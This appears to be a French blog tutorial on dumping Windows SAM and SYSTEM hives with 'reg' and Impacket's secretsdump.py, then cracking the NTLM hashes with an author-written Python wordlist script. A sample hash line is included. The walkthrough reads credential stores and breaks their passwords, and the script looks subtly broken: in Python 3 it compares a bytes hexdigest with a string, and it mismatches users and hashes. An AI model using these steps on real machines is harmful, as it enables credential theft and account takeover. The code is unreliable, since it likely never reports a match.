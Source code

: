 ```yaml
---
title: "[SAM] Dumping des informations d'identification Microsoft"
description: sam.png
tags: ["Dans cet article je vous présente le fonctionnement d'un fichier Security Account Manage (SAM), et de vous montrer comment dump un fichier SAM grâce au fichier SYSTEM sous une machine Windows."]
---
```


![Flower](../sam.png)

Introduction
----
Dans ce cours à but éducatif nous allons voir comment dumper et casser des mots de passe Microsoft grâce au système de fichier `Security Account Manager` (SAM) ou en français `Gestionnaire de compte de sécurité`.

SAM
----
Alors commençons par la base des bases c'est quoi `SAM` concrètement ? <br />

La SAM (Security Account Manager ou gestionnaire des comptes de sécurité) est la base de données des comptes locaux sur Windows Server 2003, Windows XP, Windows 2000. C'est l'un des composants de la base de registre. Elle contient les mots de passe locaux.

La SAM est stockée physiquement dans le fichier `%SystemRoot%\system32\Config\SAM`. C'est un fichier de ruche inclus dans `HKEY_LOCAL_MACHINE`, lui-même inclus dans la base de registre. Si vous regardez bien, nous voyons très bien que les clés `SAM` et `SYSTEM` sont dans le registre de Windows.

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894108-screenshot-5.png)

Nous allons enregistrer une copie des sous-clés, entrées ou données spécifiées du registre dans un format binaire via la commande `reg`. La commande `reg` est une commande Microsoft et le but du programme est de gérer le registre de Windows (Très utile pour les personnes qui n'aiment pas le GUI).

Une très bonne documentation de `REG` : [REG](https://windows.developpez.com/cours/ligne-commande/?page=page_17)

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894619-screenshot-2.png)

Les deux sous-clés `SAM` et `SYSTEM` ont été enregistrer dans la racine de Windows `C:\sam/system`. Nous arrivons dans la phase pour dumper les fichiers dans mon cas je vais faire ça sous Windows mais sous Linux ça peut également très bien fonctionner.

IMPACKET
----
Avant de dump le fichier, on va s'assurer que `impacket` est installer dans notre machine, voici le lien pour l'installer [impacket](https://github.com/SecureAuthCorp/impacket)

Impacket est un ensemble de classes Python permettant de travailler avec des protocoles réseau. Impacket se concentre sur la fourniture d'un accès programmatique de bas niveau aux paquets et à certains protocoles (par exemple, SMB1-3 et MSRPC), la mise en œuvre du protocole elle-même.

Pour l'installation de `impacket` : <br />

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558905335-screenshot-1.png)

Avant d'utiliser le programme nous allons mettre le dossier `examples` dans la variable d'environnement de l'ordinateur. Pour éviter toujours d'aller vers le dossier qui peut être assez long.

![Flower](https://image.noelshack.com/fichiers/2019/22/1/1558952753-screenshot-1.png)

Concrètement pour utiliser le programme `secretsdump.py` il vous suffit d'utiliser seulement 3 options en particulier, `-sam`, `-system` et enfin pour l'option finale `LOCAL`.

> -sam    : Spécifier le fichier `SAM`. <br />
> -system : Spécifier le fichier `SYSTEM`. <br />
> LOCAL   : Si vous voulez analyser les fichiers locaux.<br />

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558905838-screenshot-2.png)

Le dumping à fonctionner avec succès donc maintenant nous allons passer au casse du HASH avec john. Il faut avant tout identifier le HASH cela ressemble grandement à du `NT Lan Manager` (NTLM). 

Vous pouvez très bien ne pas identifier le HASH pour casser le HASH ça reste facultatif.. Le programme john va chercher par lui même pour identifier le HASH en question (Avantage par rapport à `hashcat`).

CRACK
----
Aujourd'hui je suis de bonne humeur, j'ai fais un petit script pour vous qui permet casser le HASH rien que pour vous. Il a été développer en Python.

{% highlight python %}
#coding:utf-8

import sys
import hashlib
import binascii

def recover_hash_nt():
	with open(sys.argv[1], "r") as ptr_open:
		ptr_open = ptr_open.readlines()

	username_list = []
	hash_checking = []

	for line_strip in ptr_open:
		'''
			Boucle pour lire le fichier et de
			trouver les valeurs précises dans la fonction __recover_hash_nt__().
		'''
		line_strip = line_strip.strip("\n")
		line_strip = line_strip.split(":")

		username   = line_strip[0]
		hash_check = line_strip[3]

		username_list.append(username)
		hash_checking.append(hash_check)

	with open(sys.argv[2], "r") as ptr_wordlist:
		ptr_wordlist = ptr_wordlist.readlines()

	for ptr_hash in hash_checking:
		ptr_hash = ptr_hash.strip("\n")
		'''
			read the hash in the loop
			__recover_hash_nt()__.
		'''
		for ptr_username in username_list:
			ptr_username = ptr_username.strip("\n")
			'''
				read the username in the loop
				__recover_hash_nt()__.
			'''
			for ptr_list in ptr_wordlist:
				ptr_list = ptr_list.strip("\n")
				'''
					read the wordlist in the loop.
					__recover_hash_nt()__.
				'''
				ptr_ntlm = hashlib.new('md4', ptr_list.encode('utf-16le')).digest()
				if(binascii.hexlify(ptr_ntlm) == ptr_hash):
					print("[+] CRACKED !! : [%s:%s:%s]" %(ptr_username, ptr_hash, ptr_list))
					sys.exit(0)

if __name__ == "__main__":
	recover_hash_nt()
  
{% endhighlight %}

Pour utiliser le programme ce n'est pas très compliquer il vous suffit de spécifier la wordlist et le hash à casser en question. N'oubliez pas de mettre les arguments sinon le programme ne fonctionne pas. Si vous souhaitez casser un HASH, vous devez créé un fichier texte, et que vous mettez la ligne avec l'utilisateur..

Par exemple mon fichier hash.log :

	Seyptoo:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

![Flower](https://image.noelshack.com/fichiers/2019/22/1/1558959032-screenshot-2.png)

Le programme à réussis à casser le HASH en quelques secondes.

